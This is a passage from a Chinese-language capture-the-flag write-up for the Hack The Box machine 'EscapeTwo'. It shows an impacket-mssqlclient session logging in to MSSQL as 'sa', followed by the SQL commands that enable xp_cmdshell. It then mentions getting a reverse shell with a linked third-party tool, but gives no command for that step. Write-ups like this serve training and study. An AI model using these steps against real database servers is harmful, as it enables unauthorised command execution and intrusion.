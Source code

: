 ## MSSQL xp\_cmdshell

```
[root@kali] /home/kali/EscapeTwo  
❯ impacket-mssqlclient escapetwo.htb/sa:MSSXXXXXXXXX@10.10.11.51                                                                                       ⏎

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> SELECT DB_NAME() AS CurrentDatabase;
CurrentDatabase   
--------------- 
master            

SQL (sa  dbo@master)> 
```

默认的**xp\_cmdshell**没有被打开，需要手动设置

```
-- 启用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- check
EXEC sp_configure 'xp_cmdshell';
```

![](./images/image-19.png)

我这使用一个工具进行了反弹**Shell**，因为在**mssql**终端中好像命令过长会无法使用

- [Release mssql-command-tools · Mayter/mssql-command-tool](https://github.com/Mayter/mssql-command-tool/releases/tag/mssql)
